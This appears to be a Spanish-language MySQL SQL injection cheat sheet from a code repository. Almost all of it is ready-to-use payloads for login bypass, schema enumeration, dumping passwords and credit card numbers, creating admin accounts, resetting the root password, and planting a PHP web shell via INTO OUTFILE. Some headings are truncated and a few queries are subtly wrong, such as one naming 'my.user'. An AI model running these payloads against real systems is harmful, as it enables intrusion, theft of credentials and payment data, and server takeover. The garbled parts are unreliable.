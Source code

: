 # 📌 Manual de Injection en MySQL

---

Notas:

1.  Estos comandos estan orientados a pruebas en mysql.
2.  Si te da error al probar remplaza los -- finales por #

---

    Ejemplo:
    Tenemos el comando ' UNION SELECT database(), NULL; --
    Se convierte en ' UNION SELECT database(), NULL; #

---

---

## 🛠 1. Identificar si una entrada es vulnerable

### 1.1. Probar si hay error de

Colocamos una comilla en la entrada para ver si genera un error:

```
'
```

### 1.2. Intentar autenticación bypass con condición OR

```
' OR '1'='1
```

### 1.3. Verificar si la inyección afecta a consultas numéricas

```
1 OR 1=1
```

---

## 📌 2. Obtener información básica de My

### 2.1. Obtener la versión de la base de datos

```
' UNION SELECT @@version, NULL; --
```

### 2.2. Obtener el nombre de la base de datos actual

```
' UNION SELECT database(), NULL; --
```

### 2.3. Obtener el usuario actual de la base de datos

```
' UNION SELECT user(), NULL; --
```

### 2.4. Obtener los usuarios de la base de datos

```
' UNION SELECT user, NULL FROM users; #
```

---

## 📌 3. Enumerar bases de datos y tablas

### 3.1. Listar todas las bases de datos

```
' UNION SELECT schema_name, NULL FROM information_schema.schemata; --
```

### 3.2. Listar todas las tablas de la base de datos actual

```
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = database(); --
```

### 3.3. Intentar crear una tabla

```
1' '; create table hakers(id int(10),data text(10)) #
```

### 3.4. Listar todas las columnas de una tabla específica

```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users'; --
```

---

## 📌 4. Extraer información sensible

### 4.1. Obtener usuarios y contraseñas de una tabla de usuarios

```
' UNION SELECT user, password FROM users; --
```

### 4.2. Obtener correos electrónicos almacenados

```
' UNION SELECT user,last_login FROM users; #
```

### 4.3. Obtener tarjetas de crédito (si existen en la base de datos 😈)

```
' UNION SELECT card_number, card_cvv FROM credit_cards; --
```

---

## 📌 5. Bypass de autenticación

### 5.1. Iniciar sesión sin contraseña

```
' OR '1'='1' --
```

---

## 📌 6. Escalar privilegios en My

### 6.1. Obtener usuarios de mysql

```
' UNION SELECT user, NULL FROM mysql.user; #
```

### 6.1. Verificar si el usuario actual tiene privilegios de administrador

```
' UNION SELECT user, host, authentication_string FROM my.user; --
```

### 6.2. Intentar crear un nuevo usuario administrador

```
' UNION SELECT "GRANT ALL PRIVILEGES ON _._ TO 'hacker'@'%' IDENTIFIED BY 'password';"; --
```

### 6.3. Cambiar la contraseña del usuario root

```
' UNION SELECT "UPDATE my.user SET authentication_string=PASSWORD('nueva_contraseña') WHERE user='root';"; --
```

---

## 📌 7. Cargar archivos maliciosos (Web Shells)

### 7.1. Escribir un archivo en el servidor (Web Shell en PHP)

```
' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'; --
```
